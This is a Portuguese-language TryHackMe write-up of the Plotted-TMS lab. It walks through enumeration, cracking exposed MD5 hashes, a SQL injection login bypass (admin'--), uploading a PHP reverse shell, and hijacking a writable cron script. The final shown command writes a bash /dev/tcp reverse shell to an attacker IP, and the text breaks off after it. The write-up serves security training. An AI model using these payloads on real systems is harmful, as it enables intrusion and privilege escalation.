# 🚩 Plotted-TMS — TryHackMe Write-up


Documentação técnica da exploração da máquina **Plotted-TMS** no TryHackMe. Este laboratório aborda técnicas de **Reconhecimento Web**, **SQL Injection**, **Unrestricted File Upload**, **Cron Job Hijacking** e **Escalação de Privilégios com doas/openssl**.

---

## 🔍 1. Reconhecimento

### Varredura Inicial de Portas

Iniciei com uma varredura rápida usando `--rate 5000` e `-T5` para identificar as portas abertas no alvo sem perder tempo com timeouts.

[](img/nmap_agressivo.png)

Foram identificadas três portas abertas: **22 (SSH)**, **80 (HTTP)** e **445** — que inicialmente apareceu como `microsoft-ds`, mas se mostrou ser outro servidor Apache rodando em porta não convencional.

### Varredura Detalhada de Serviços

Com as portas em mãos, executei um scan com detecção de versão (`-sV`) e scripts padrão (`-sC`) para confirmar os serviços:

[](img/nmap_nas_portas_achadas.png)

| Porta | Serviço | Versão |
|-------|---------|--------|
| 22 | SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 |
| 80 | HTTP | Apache httpd 2.4.41 (Ubuntu) |
| 445 | HTTP | Apache httpd 2.4.41 (Ubuntu) |

---

## 🌐 2. Enumeração Web — Porta 80

### Inspeção Inicial

O acesso direto ao IP na porta 80 retornou a página padrão do Apache2 Ubuntu, sem nenhum conteúdo relevante visível.

[](img/apache_80.png)

### Gobuster — Porta 80

Rodei o Gobuster com a wordlist `common.txt` para mapear os diretórios:

```bash
gobuster dir -u http://10.66.184.54/ -w /usr/share/dirb/wordlists/common.txt
```

[](img/gobuster_inicial.png)

Os endpoints mais interessantes foram `/admin`, `/passwd` e `/shadow` — todos acessíveis sem autenticação.

### Análise do diretório /admin/

O directory listing estava habilitado, expondo um arquivo `id_rsa`:

[](img/diretorio_id_rsa.png)

O conteúdo do arquivo era uma string em Base64:

[](img/conteudo_diretorio_id_rsa.png)

### Análise do endpoint /passwd

O endpoint `//passwd` também retornava uma string em Base64:

[](img/diretorio_passwd.png)

---

## 🪤 3. Rabbit Holes — Falsos Positivos

Ao decodificar ambos os artefatos, os resultados foram mensagens propositalmente enganosas:

[](img/decode_texto_id_rsa.png)

> *"Trust me it is not this easy.. now get back to enumeration :D"*

[](img/decode_texto_passwd.png)

> *"not this easy :D"*

Ambos os arquivos eram **rabbit holes** — armadilhas intencionais para desviar o foco. A enumeração precisava continuar.

---

## 🌐 4. Enumeração Web — Porta 445

### Inspeção Inicial

A porta 445 também respondia com a página padrão do Apache2:

[](img/pagina_porta_445.png)

### Gobuster — Porta 445

```bash
gobuster dir -u http://10.66.184.54:445/ -w /usr/share/dirb/wordlists/common.txt
```

[](img/gobuster_apache_da_porta_445.png)

Foi encontrado o diretório `/management`, que levava à aplicação real da máquina.

### Aplicação identificada: Traffic Offense Management System

Acessando `/management/`, foi revelada a aplicação-alvo:

[](img/diretorio_management.png)

### Gobuster dentro de /management/

Uma segunda rodada de enumeração mapeou toda a estrutura interna da aplicação:

```bash
gobuster dir -u http://10.66.184.54:445/management -w /usr/share/dirb/wordlists/common.txt
```

[](img/gobuster_no_diretorio_management.png)

Entre os diretórios encontrados, o `/database/` e o `/uploads/` chamaram atenção imediata.

---

## 🗃️ 5. Information Disclosure — Dump SQL Exposto

### Directory Listing em /database/

O directory listing estava habilitado, expondo um arquivo `traffic_offense_db.sql` de 10KB completamente acessível sem autenticação:

[](img/diretorio_db_sql.png)

### Conteúdo do dump SQL

O arquivo continha a estrutura completa do banco de dados, incluindo a tabela `users` com hashes de senha:

[](img/conteudo_db_sql.png)

Credenciais extraídas do dump:

| Usuário | Hash MD5 | Tipo |
|---------|----------|------|
| admin | `0192023a7bbd73250516f069df18b500` | Administrador |
| jsmith | `1254737c076cf867dc53d60a0364f38e` | Usuário |

> ⚠️ **Vulnerabilidade:** Dump SQL exposto publicamente sem qualquer controle de acesso, contendo hashes MD5 sem salt — trivialmente reversíveis. Classificado como **Information Disclosure (CWE-200)** com severidade **Alta**.

---

## 🔓 6. Exploração

### 6.1 Password Cracking — John the Ripper

Com os hashes extraídos, utilizei o John the Ripper com a wordlist `rockyou.txt`:

[](img/john_na_hash_do_jsmith.png)

Ambos os hashes foram quebrados em menos de 1 segundo:

| Usuário | Senha |
|---------|-------|
| admin | `admin123` |
| jsmith | `jsmith123` |

Apesar das senhas terem sido recuperadas, **nenhuma delas funcionou no login da aplicação**, indicando que o dump SQL estava desatualizado.

### 6.2 SQL Injection — Authentication Bypass

Com as credenciais inválidas, testei SQL Injection diretamente no campo de usuário do painel de administração (`/management/admin/login.php`):

[](img/pagina_admin_redirect_pra_login_php.png)

O payload `admin'--` foi inserido no campo de username com a senha em branco:

[](img/tentativa_bem_sucedida_de_sqli_para_bypass.png)

O login foi realizado com sucesso, confirmando que a aplicação não sanitizava o input. A query vulnerável:

```sql
-- Original:
SELECT * FROM users WHERE username = '$username' AND password = '$password'

-- Com o payload:
SELECT * FROM users WHERE username = 'admin'--' AND password = ''
-- A verificação de senha é comentada e o login é bypassed
```

> ⚠️ **Vulnerabilidade:** SQL Injection no formulário de login — **Authentication Bypass (CWE-89)**, severidade **Crítica**.

### 6.3 Acesso ao Painel Administrativo

Com o bypass bem-sucedido, o painel administrativo completo foi acessado como **Administrator Admin**:

[](img/painel_administrativo_da_pagina.png)

### 6.4 Unrestricted File Upload — Reverse Shell

Na seção **Settings** do painel, os campos de upload de imagem não realizavam nenhuma validação de tipo de arquivo. Fiz o upload de uma PHP reverse shell renomeada como `testeee.php`:

[](img/subindo_shell_por_upload.png)

Com um listener Netcat ativo na porta 4444, acessei o arquivo pelo browser em `/management/uploads/testeee.php`:

[](img/acessando_a_shell_na_pagina.png)

A conexão reversa foi recebida com sucesso:

[](img/shell_obtida_por_upload.png)

Acesso inicial obtido como **`www-data`**.

> ⚠️ **Vulnerabilidade:** Upload irrestrito de arquivos PHP — **Unrestricted File Upload (CWE-434)**, severidade **Crítica**.

---

## 🚀 7. Escalação de Privilégios

### 7.1 Enumeração — www-data

Com a shell ativa, tentei ler a user flag mas o acesso foi negado:

[](img/ainda_sem_acesso_da_flag_user.png)

Rodei um `find` para identificar binários com SUID, onde o `/usr/bin/doas` apareceu como item de interesse:

[](img/encontrando_doas_com_find_suid.png)

Também li o `/etc/crontab` e encontrei uma tarefa executada a cada minuto pelo usuário `plot_admin`, além da configuração do `doas`:

[](img/conf_do_doas.png)

```
* * * * *   plot_admin   /var/www/scripts/backup.sh
```

### 7.2 Cron Job Hijacking — Escalada para plot_admin

Verifiquei as permissões do script e confirmei que o `www-data` tinha permissão de escrita:

[](img/permissao_total_no_diretorio_do_script.png)

```
-rwxrwxr-- 1 plot_admin plot_admin 141 Oct 28 2021 /var/www/scripts/backup.sh
```

Substituí o conteúdo do script por uma reverse shell:

[](img/apaguei_o_script_e_criei_um_meu_para_obter_shell.png)

```bash
rm -f /var/www/scripts/backup.sh
echo '#!/bin/bash' > /var/www/scripts/backup.sh
echo 'bash -i >& /dev/tcp/192.168.216.55/4444 0>&1' >> /var/www/scripts/backup.sh
